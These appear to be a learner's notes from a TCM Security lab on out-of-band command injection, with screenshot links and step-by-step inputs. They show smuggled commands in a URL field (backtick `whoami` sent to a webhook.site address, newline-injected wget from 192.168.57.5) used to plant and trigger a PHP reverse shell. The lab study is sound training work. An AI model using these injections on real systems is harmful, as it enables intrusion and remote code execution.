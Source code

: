 
![[Pasted image 20230715153450.png]]

we get OK back

probably from response code 200 OK

test a non existent website name to see response

![[Pasted image 20230715153626.png]]

we get website not found

i/p:
https://tcm-sec.com ; whoami; asd

![[Pasted image 20230715153802.png]]

we get OK again but out ; are being filtered

i/p:

https://webhook.site/c50292e9-da33-4700-a16c-a67e8da06f85/? \`whoami\`

whoami inside  backtiks which will interpret as a command and execute it

![[Pasted image 20230715154505.png]]

o/p on webhook

![[Pasted image 20230715154539.png]]

user is www-data

this is out of band command injection since we have to catch it at other place reather than it being reflected back to us

i/p:

https://tcm-sec.com \\n wget http://192.168.57.5:8080/test

\\n to go to new line and execute the command

run 
python3 -m http.server 8080
port 80 already in use by tcm lab

![[Pasted image 20230715155113.png]]

![[Pasted image 20230715155440.png]]

edit the port and IP

![[Pasted image 20230715155552.png]]

renamed the file to rev.php

start http server again in /tmp folder when rev.php resides

i/p:
https://tcm-sec.com \\n wget http://192.168.57.5:8080/rev.php

search http://localhost/rev.php

and we get back a shell

